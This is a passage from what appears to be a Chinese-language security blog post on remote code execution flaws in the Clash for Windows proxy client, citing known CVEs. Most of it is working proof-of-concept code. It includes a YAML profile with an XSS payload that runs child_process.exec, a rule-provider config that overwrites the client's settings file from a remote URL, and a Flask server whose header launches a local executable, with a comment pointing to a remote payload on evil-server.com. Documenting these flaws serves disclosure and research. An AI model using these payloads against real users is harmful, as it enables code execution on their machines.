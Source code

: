 在较低版本的 CFW 中, Profile 中的 HTML 标签会被解析, 从而可以利用 Electron 的 exec 功能进行 RCE. 基本想法和上一个一样:

```yml
mixed-port: 7890
allow-lan: true
mode: Rule
log-level: debug
proxies:
    - { name: <img src=# onerror="require('child_process').exec('calc');">, type: vmess, server: 123, port: '29999', uuid: B00EC15A-B535-411D-95D6-CAEA028C477F, alterId: 0, cipher: auto, udp: false }
proxy-groups:
    - { name: 'Huh?', type: select, proxies: [<img src=# onerror="require('child_process').exec('calc');">] }
```

显然, 用户在发现代理用不了了之后一定会看一眼 Rules 里面发生了啥, 于是, Boom~

## 结语

CFW 作者跑路啦!!! 安全补丁没有啦!!! 赶紧换别的吧!!!

## 参考

- [CFW XSS RCE (Freebuf)](https://www.freebuf.com/vuls/323348.html)

- [CVE-2023-24205 (CN-SEC)](https://cn-sec.com/archives/1518693.html) 覆盖 cfw-settings.yaml

  ```yml
  mixed-port: 7890
  allow-lan: true
  mode: Rule
  log-level: debugger
  external-controller: 0.0.0.0:9090
  proxies:
    - name: a
      type: socks5
      server: 127.0.0.1
      port: "17938"
      skip-cert-verify: true

  rule-providers:
    p:
      type: http
      behavior: domain
      url: "http://this.your.url/cfw-settings.yaml"
      path: ./cfw-settings.yaml # Overwrite cfw-settings.yaml
      interval: 86400
  ```

- [CVE-2023-43840](https://github.com/LovelyWei/clash_for_windows_1click_RCE) 右键打开 `file://` 链接

  ```py
  from flask import Flask, make_response
  
  app = Flask(__name__)
  
  @app.route("/evil")
  def index():
      resp = make_response("""
  rules:
    - DOMAIN-SUFFIX,evil,DIRECT
  """)
      resp.headers["profile-web-page-url"] = """file://c:/windows/system32/calc.exe """
      # poc try file://net/evil-server.com/nfs/evil/payload.app \\evil-server.com\evil\payload.exe to execute remote payload
      return resp
  
  ```